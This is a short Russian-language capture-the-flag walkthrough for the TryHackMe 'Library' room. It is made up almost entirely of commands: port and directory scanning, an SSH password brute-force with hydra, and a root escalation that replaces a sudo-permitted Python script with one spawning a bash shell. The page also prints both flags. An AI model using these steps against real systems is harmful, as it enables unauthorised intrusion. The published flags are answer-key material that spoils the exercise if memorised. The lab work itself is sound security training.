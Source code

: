 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Library](https://tryhackme.com/r/room/bsidesgtlibrary) 

Всего 1 заданиe:
## Задание 1
Прочитать user.txt и root.txt

### Ответьте на вопросы ниже
пользователь.txt
```commandline
nmap -sC -sV <IP>
gobuster dir --url http://<IP> --wordlist /data/src/wordlists/directory-list-2.3-medium.txt 
hydra -l meliodas -P /data/src/wordlists/rockyou.txt ssh://<IP>
# login: meliodas   password: iloveyou1
ssh meliodas@<IP>
cat user.txt
```
```commandline
6d488cbb3f111d135722c33cb635f4ec
```
корень.txt
```commandline
sudo -l
cat /home/meliodas/bak.py
rm -f bak.py

cat > bak.py << EOF
#!/usr/bin/env python
import pty
pty.spawn("/bin/bash")
EOF

sudo /usr/bin/python3 /home/meliodas/bak.py
cat /root/root.txt
```
```commandline
e8c8c6c256c35515d1d344ee0488c617
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)